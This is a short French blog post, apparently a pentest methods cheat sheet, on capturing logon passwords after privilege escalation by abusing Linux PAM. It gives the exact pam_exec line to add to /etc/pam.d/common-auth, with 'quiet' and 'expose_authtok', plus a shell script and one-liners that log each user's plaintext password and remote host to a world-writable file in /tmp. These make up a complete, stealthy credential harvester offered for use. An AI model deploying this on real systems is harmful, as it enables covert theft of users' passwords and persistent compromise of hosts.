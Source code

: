 ```yaml
---
title: Sniffing de password avec PAM 
meta_title: ""
description: Cet article aborde la technique de récupération des password au Logon avec PAM. 
date: 2024-04-04T05:00:00Z
image: /images/PAM.jpeg
categories:
  - Méthodes
author: Tmax
tags:
  - Méthodes
  - Fiches
  - PAM
  - Post-exploitation
draft: false
---
```


Cette technique peut etre gamechanger à la suite d'une escalation de privilège.

Prérequis : 
- Vous remarquez un Bot ou une crontab qui s'execute fréquemment 
- Vous avez des droits de modifications dans le répertoire `/etc/pam.d`
- Vous pouvez lire le fichier `/var/log/auth.log`

Après avoir constaté que vous remplissez les conditions requises, vous remarquez qu'à chaque execution de la tâche planifiée, une ligne comme celle-ci apparait :

methode_sniffing_pam1.png

Ce qui signifie qu'une une authentification s'effectue avec l'utilisateur root ou un autre utilisateur avec `su`. 

Il est possible de récupérer le mot de passe utilisé durant cette authentification. 

Pour cela, on utilise le module `pam_exec`. Le principe est simple, on va lui dira qu'à chaque authentification, il appel notre script. `expose_authtok` permet de pouvoir lire le mot de passe passé en stdin et `quiet` pour s'assurer de ne pas être visible par l'utilisateur. 

On modifie alors le fichier de configuration `/etc/pam.d/common-auth` pour y ajouter cette ligne (bien espacer chaque mot par un tabulation `\t`): 

```bash
auth    optional    pam_exec.so quiet   expose_authtok  /tmp/sniffing.sh
```

Voici le contenu de /tmp/sniffing.sh

```bash
#!/bin/sh
echo "$(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /tmp/sniffing.log
```

Cela affichera la date et l'heure, l'utilisateur puis son mot de passe ainsi que l'IP de l'hôte distant et sera envoyé vers notre fichier de log. 

```bash
echo -e '#!/bin/sh\necho "$(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /tmp/sniffing.log' > /tmp/sniffing.sh

touch /tmp/sniffing.log

chmod 777 /tmp/sniffing.* 
```

Source : [Post Exploitation: Sniffing Logon Passwords with PAM](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)

